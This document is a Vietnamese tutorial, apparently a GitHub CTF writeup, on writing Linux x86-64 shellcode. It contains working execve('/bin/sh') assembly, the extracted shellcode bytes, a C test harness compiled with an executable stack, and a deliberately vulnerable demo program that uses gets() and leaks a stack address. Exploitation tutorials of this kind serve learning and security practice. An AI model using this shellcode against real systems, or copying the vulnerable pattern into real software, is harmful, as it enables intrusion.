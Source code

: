 # Shellcoding (Linux)
Khái niệm về shellcode có rất nhiều bài viết định nghĩa về nó, nên mình sẽ đề cập lại ở đây .Các bạn có thẻ tham khảo 1 số bài viết:
- https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html
- https://en.wikipedia.org/wiki/Shellcode

Tiếp theo mình sẽ nói về cách viết 1 shellcode cơ bản, cụ thể ở đây là 1 shellcode thực thi việc lên shell. Việc lên shell ở đây bản chất là ta sử dụng syscall execve("/bin/sh", NULL, NULL). Syscall là gì thì mình có giải thích qua ở bài viết về ROP bạn có thể tham khảo ở đây:
- https://github.com/shawking2/Writeup/tree/main/ROP

Để Shellcode có thể thực thi trong chương trình thì ta cần 1 số điều kiện cơ bản:

\+ Vùng nhớ ta đặt shellcode phải có quyền execute 
\+ Instruction call địa chỉ mà ta trữ shellcode đó. Khi đó shellcode sẽ được thực thi.
\+ Instruction ret về địa chỉ chú shellcode
\+ Lệnh nhảy về địa chỉ chứ shellcode của ta
\+ Mình chỉ liệt kê cách cách thực thi shellcode thường gặp mà mình thấy (vẫn còn nhiều trường hợp khác)

Để viết một shellcode sử dụng syscall execve("/bin/sh", NULL, NULL). Đầu tiên ta phải viết 1 chương trình assembly call syscall exceve("/bin/sh", NULL, NULL):
```
section .text
  global _start
    _start:
      push rax                    
      mov rbx,'/bin//sh'            # cho rbx chứa chuỗi "/bin/sh"
      xor rsi, rsi                  # rsi = NULL tham số thứ thứ 3 của exceve
      xor rdx, rdx                  # rdx = NULL tham số thứ thứ 3 của exceve
      push rbx                      # push chuỗi '/bin/sh' vào stack. Điều ngày có nghĩa rsp đang mang giá trị là địa chỉ của chuỗi '/bin/sh' 
      push rsp                      # push giá trị của rsp -> địa chỉ của '/bin/sh'
      pop rdi                       # rbx sẽ chứa đối số đầu tiên của excecve  -> "/bin/sh"
      mov al, 0x3b                  # syscall number của exceve
      syscall
```
Để biên dịch nó ta sẽ đưa đoạn code này lưu vào 1 file .asm .Sau dó dùng các lệnh sau để biên dịch:

> nasm -f elf64 shellcode.asm -o shellcode.o
> ld shellcode.o -o shellcode
Thao tác vừa rồi, ta vừa biên dịch đoạn code asm thành file binary:
```
higgs@DESKTOP-PMDB9KR:~$ ./shellcode
$ whoami
shawking
$
```
Run file này ta có thể thấy t đã hoàn thành việc lên shell nhờ gọi syscall exceve("/bin/sh", NULL, NULL).

Vậy thì tiếp theo làm sao ta tạo ra 1 shellcode .Nếu các bạn đã đọc qua cái bài viết ở trên thì bạn sẽ biết rằng shellcode chính là các byte code. Byte code ở đây thức chất chính là các opcode của các instruction trong chương trình ta vừa viết. Vậy để có được shellcode ta chỉ cần xem opcode của nó.

Công cụ objdump sẽ giúp ta điều này:
```
higgs@DESKTOP-PMDB9KR:~$ objdump --disassemble test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       50                      push   %rax
  401001:       48 31 d2                xor    %rdx,%rdx
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
  40100e:       2f 73 68
  401011:       53                      push   %rbx
  401012:       54                      push   %rsp
  401013:       5f                      pop    %rdi
  401014:       b0 3b                   mov    $0x3b,%al
  401016:       0f 05                   syscall
```
Các bạn quan sát sẽ thấy có 1 cột hiện thị mã hex:

![screenshot](https://github.com/shawking2/Writeup/blob/main/ShellCode/img/opcode.PNG)
Xâu chuỗi các mã hex lại theo thú tự như trên ta có 1 chuỗi shellcode thực thi exceve("/bin/sh",NULL, NULL)
> SHELLCODE: 
```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Ta có thể viết 1 đoạn code c đẻ kiểm tra shellcode của chúng ta (lưu ý ta phải thêm tham số -z execstack để có quyền execute trên stack)
```
#include <stdio.h>

unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
Biên dịch :  gcc -z execstack -o shell shell.c
Kết quả thực thi:
```
higgs@DESKTOP-PMDB9KR:~$ gcc -z execstack -o test test.c
test.c:4:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    4 | main()
      | ^~~~
higgs@DESKTOP-PMDB9KR:~$ ./test
$ whoami
shawking
$
```
Phân tích assembly của chương trình trên sẽ hiệu tại sao shellcode được thực thi:
```
   0x555555555129 <main+4>             sub    rsp, 0x10
   0x55555555512d <main+8>             lea    rax, qword ptr [rip + 0x2efc] <0x555555558030>
   0x555555555134 <main+15>            mov    qword ptr [rbp - 8], rax
   0x555555555138 <main+19>            mov    rdx, qword ptr [rbp - 8]
   0x55555555513c <main+23>            mov    eax, 0
 ► 0x555555555141 <main+28>            call   rdx <shellcode>
        rdi: 0x1
        rsi: 0x7fffffffdff8 —▸ 0x7fffffffe207 ◂— '/home/higgs/test'
        rdx: 0x555555558030 (shellcode) ◂— push   rax /* 0x48f63148d2314850 */
        rcx: 0x7ffff7fac718 (__exit_funcs) —▸ 0x7ffff7faeb00 (initial) ◂— 0

   0x555555555143 <main+30>            mov    eax, 0
   0x555555555148 <main+35>            leave
   0x555555555149 <main+36>            ret
```
Tại đây instruction call sẽ call địa chỉ chứa shellcode của chúng ta. Khi đó shellcode sẽ được thi.
> Challenge demo:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -o demo demo.c -no-pie
int main(void)
{
  char buffer[32];
  printf("DEBUG: %p\n", buffer);
  gets(buffer);
}
```
### File binary: [demo](https://github.com/shawking2/Writeup/blob/main/ShellCode/src/demo?raw=true)







